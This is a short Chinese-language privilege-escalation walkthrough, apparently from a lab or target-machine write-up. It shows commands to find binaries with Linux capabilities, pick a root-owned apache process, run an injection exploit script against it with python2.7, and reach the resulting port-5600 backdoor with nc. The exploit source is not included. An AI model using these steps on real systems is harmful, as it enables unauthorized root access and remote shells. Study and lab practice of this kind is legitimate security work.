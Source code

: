 ## Capabilitie提权

查找设置过capabilitie的应用程序

```plain
/sbin/getcap -r / 2>/dev/null
```

[![](assets/1703210041-9668ba7d0afe5fec0c719912eef3c471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231217161631-95e51466-9cb4-1.png)

这里选择python2.7进行提权，现在需要选择一个以root权限运行的程序，命令查询：

```plain
ps -aux | grep root
```

[![](assets/1703210041-ea039411485e471aa60672a0ea3c5edb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231217161640-9af295d2-9cb4-1.png)

选择id为1012的apache进程，下载注入exp并执行

```plain
python2.7 inject.py 1012
```

[![](assets/1703210041-5ca95ee037a914a12fa93e615702fad6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231217161649-a03c8ef8-9cb4-1.png)

执行后靶机会开启5600端口后门，使用kali nc连接该端口

[![](assets/1703210041-ee15101fb62eb38f97da1878d55e4c32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231217161657-a57de2b8-9cb4-1.png)
